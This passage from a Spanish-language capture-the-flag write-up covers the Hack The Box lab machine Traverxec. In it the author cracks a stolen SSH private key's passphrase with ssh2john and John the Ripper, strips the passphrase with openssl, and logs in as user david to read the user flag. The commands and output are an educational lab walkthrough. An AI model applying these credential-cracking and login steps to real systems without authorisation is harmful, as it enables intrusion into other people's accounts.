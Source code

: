 Podemos usar ssh2john para descifrar la clave privada de SSH:

```shell
❯ find / -name ssh2john.py 2>/dev/null
/usr/share/john/ssh2john.py
❯ python /usr/share/john/ssh2john.py id_rsa > id_rsa.john
❯ john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:02 DONE (2021-10-17 19:10) 0.4694g/s 6733Kp/s 6733Kc/s 6733KC/sa6_123..*7¡Vamos!
Session completed
```

La contraseña es `hunter`, por lo que ahora podemos descifrar esta clave y crear una copia de la clave que no está protegida por esta contraseña:

```shell
❯ openssl rsa -in id_rsa -out id_rsa_david
Enter pass phrase for id_rsa:
writing RSA key
```

Alternativamente, pero no se recomienda, ya que no tendrá una copia de la clave descifrada, es simplemente ingresar la frase de la contraseña cuando se le solicite:

```shell
ssh -i id_rsa david@10.10.10.165
```

## Shell via SSH

Ahora que tenemos la clave privada descifrada, podemos usarla para autenticarnos en el servicio SSH como el usuario david:

```shell
❯ ssh -i id_rsa_david david@10.10.10.165
The authenticity of host '10.10.10.165 (10.10.10.165)' can't be established.
ECDSA key fingerprint is SHA256:CiO/pUMzd+6bHnEhA2rAU30QQiNdWOtkEPtJoXnWzVo.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.165' (ECDSA) to the list of known hosts.
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
david@traverxec:~$ id
uid=1000(david) gid=1000(david) groups=1000(david),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
david@traverxec:~$ cut -c-5 user.txt
7db0b
```
